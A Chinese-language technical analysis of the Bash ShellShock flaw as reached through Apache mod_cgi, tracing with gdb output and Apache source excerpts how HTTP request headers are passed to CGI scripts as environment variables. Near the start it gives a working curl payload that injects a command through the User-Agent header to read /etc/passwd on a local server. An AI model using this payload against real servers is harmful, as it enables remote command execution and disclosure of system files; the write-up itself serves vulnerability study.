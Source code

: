 ## CVE-2014-6278漏洞分析

### 漏洞介绍

CGI (Common Gateway Interface) 定义了web服务端与其它程序 (CGI脚本) 相互交流的方式。CGI脚本允许程序员使用任何自己熟悉的语言来动态生成网页内容，常用的CGI语言包括C、C++、perl、python、shell等。

![](img/0.png)

Apache提供mod_cgi模块允许使用CGI脚本编程，当web用户通过使用unix shell所编写CGI脚本来访问网页时，HTTP请求头等信息会作为环境变量储存。由于Bash<=4.3版本在处理外部环境变量的过程中存在ShellShock漏洞，攻击者可以在HTTP请求头字段构造触发ShellShock漏洞的payload从而造成的任意命令执行。

### 漏洞分析

输入payload命令

```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' localhost:8080/cgi-bin/cgi-34900
```

使用gdb attach到httpd进程进行调试

```
(gdb) catch fork
Catchpoint 1 (fork)
(gdb) c
Continuing.

Catchpoint 1 (forked process 318), 0x00007f86cd315972 in fork () from /lib64/libc.so.6
(gdb) bt
#0  0x00007f86cd315972 in fork () from /lib64/libc.so.6
#1  0x00007f86cda61104 in apr_proc_create () from /lib64/libapr-1.so.0
#2  0x0000556f909190c7 in ap_unix_create_privileged_process (p=<optimized out>, ugid=<optimized out>, attr=<optimized out>, env=<optimized out>, args=<optimized out>, progname=<optimized out>, 
    newproc=<optimized out>) at unixd.c:192
#3  ap_os_create_privileged_process (r=<optimized out>, newproc=0x556f926d9338, progname=<optimized out>, args=<optimized out>, env=<optimized out>, attr=<optimized out>, p=0x556f926d3958) at unixd.c:208
#4  0x00007f86c1447965 in run_cgi_child (script_out=script_out@entry=0x7ffc805c8940, script_in=script_in@entry=0x7ffc805c8948, script_err=script_err@entry=0x7ffc805c8950, command=<optimized out>, 
    argv=<optimized out>, r=r@entry=0x556f926d39d0, p=p@entry=0x556f926d3958, e_info=e_info@entry=0x7ffc805c8970) at mod_cgi.c:456
#5  0x00007f86c1448b4d in cgi_handler (r=0x556f926d39d0) at mod_cgi.c:829
#6  0x0000556f908fdb80 in ap_run_handler (r=r@entry=0x556f926d39d0) at config.c:169
#7  0x0000556f908fe0c9 in ap_invoke_handler (r=r@entry=0x556f926d39d0) at config.c:439
#8  0x0000556f90912cda in ap_process_async_request (r=0x556f926d39d0) at http_request.c:339
#9  0x0000556f90912fc2 in ap_process_request (r=r@entry=0x556f926d39d0) at http_request.c:374
#10 0x0000556f9090f152 in ap_process_http_sync_connection (c=0x556f926cb990) at http_core.c:190
#11 ap_process_http_connection (c=0x556f926cb990) at http_core.c:231
#12 0x0000556f909071b0 in ap_run_process_connection (c=c@entry=0x556f926cb990) at connection.c:41
#13 0x0000556f90907598 in ap_process_connection (c=c@entry=0x556f926cb990, csd=<optimized out>) at connection.c:202
#14 0x00007f86c49937ef in child_main (child_num_arg=child_num_arg@entry=0) at prefork.c:707
#15 0x00007f86c49939ec in make_child (s=0x556f92629350, slot=slot@entry=0) at prefork.c:749
#16 0x00007f86c4994771 in prefork_run (_pconf=<optimized out>, plog=0x556f9262d358, s=0x556f92629350) at prefork.c:966
#17 0x0000556f908e212e in ap_run_mpm (pconf=pconf@entry=0x556f92600138, plog=0x556f9262d358, s=0x556f92629350) at mpm_common.c:96
#18 0x0000556f908dae86 in main (argc=4, argv=0x7ffc805cd068) at main.c:783
```

从第5层的`modules/generators/mod_cgi.c`的`cgi_handler`函数开始分析：

```
static int cgi_handler(request_rec *r)
{
    [...]
    ap_add_common_vars(r);
    ap_add_cgi_vars(r);
```

可以看到在第805行将收到request传入`ap_add_common_vars`以及`ap_add_cgi_vars`中，在`server/util_scrip.c`的第138行可以看到`ap_add_common_vars`的代码：

```
AP_DECLARE(void) ap_add_common_vars(request_rec *r)
{
    apr_table_t *e;
    server_rec *s = r->server;
    conn_rec *c = r->connection;
    const char *env_temp;
    const apr_array_header_t *hdrs_arr = apr_table_elts(r->headers_in);
    const apr_table_entry_t *hdrs = (const apr_table_entry_t *) hdrs_arr->elts;
    int i;
    apr_port_t rport;
    char *q;

    /* use a temporary apr_table_t which we'll overlap onto
     * r->subprocess_env later
     * (exception: if r->subprocess_env is empty at the start,
     * write directly into it)
     */
    if (apr_is_empty_table(r->subprocess_env)) {
        e = r->subprocess_env;
    }
    else {
        e = apr_table_make(r->pool, 25 + hdrs_arr->nelts);
    }

    /* First, add environment vars from headers... this is as per
     * CGI specs, though other sorts of scripting interfaces see
     * the same vars...
     */

    for (i = 0; i < hdrs_arr->nelts; ++i) {
        if (!hdrs[i].key) {
            continue;
        }

        /* A few headers are special cased --- Authorization to prevent
         * rogue scripts from capturing passwords; content-type and -length
         * for no particular reason.
         */

        if (!strcasecmp(hdrs[i].key, "Content-type")) {
            apr_table_addn(e, "CONTENT_TYPE", hdrs[i].val);
        }
        else if (!strcasecmp(hdrs[i].key, "Content-length")) {
            apr_table_addn(e, "CONTENT_LENGTH", hdrs[i].val);
        }
        /*
         * You really don't want to disable this check, since it leaves you
         * wide open to CGIs stealing passwords and people viewing them
         * in the environment with "ps -e".  But, if you must...
         */
         #ifndef SECURITY_HOLE_PASS_AUTHORIZATION
        else if (!strcasecmp(hdrs[i].key, "Authorization")
                 || !strcasecmp(hdrs[i].key, "Proxy-Authorization")) {
            continue;
        }
		#endif
        else
            add_unless_null(e, http2env(r, hdrs[i].key), hdrs[i].val);
    }
    [...]
}
```

可以看到，`ap_add_common_vars`函数对创建`hdrs_arr`表来存储传入的request中的HTTP headers，并创建了类型为`apr_table_t`的`e `来添加环境变量。在随后的for循环中，读取了request中所有HTTP headers，并添加在`e`中，并最终传入`r->subprocess_env`。因此我们payload中所定义的`User-Agent`也会在这里被添加入环境变量中。

接着在`modules/generators/mod_cgi.c`的第829行，将通过调用`run_cgi_child`在子进程中运行CGI脚本。

```
    /* run the script in its own process */
    if ((rv = run_cgi_child(&script_out, &script_in, &script_err,
                            command, argv, r, p, &e_info)) != APR_SUCCESS) {
        ap_log_rerror(APLOG_MARK, APLOG_ERR, rv, r, APLOGNO(01223)
                      "couldn't spawn child process: %s", r->filename);
        return HTTP_INTERNAL_SERVER_ERROR;
    }
```

查看`modules/generators/mod_cgi.c`的`run_cgi_child`函数，可以看到在第410行读取了`r->subprocess_env`中的值传入`env`，并在第456行在调用`ap_os_create_privileged_process`函数时将`env`将做参数传入。

```
static apr_status_t run_cgi_child(apr_file_t **script_out,
                                  apr_file_t **script_in,
                                  apr_file_t **script_err,
                                  const char *command,
                                  const char * const argv[],
                                  request_rec *r,
                                  apr_pool_t *p,
                                  cgi_exec_info_t *e_info)
{
	[...]
	env = (const char * const *)ap_create_environment(p, r->subprocess_env);
	[...]
	rc = ap_os_create_privileged_process(r, procnew, command, argv, env,
                                             procattr, p);

```

在本篇paper中主要分析环境变量的创建与传递，至于CGI程序的创建过程就不再赘述。最终HTTP请求头作为环境变量被传入bash中执行，通过ShellShock漏洞造成任意命令执行。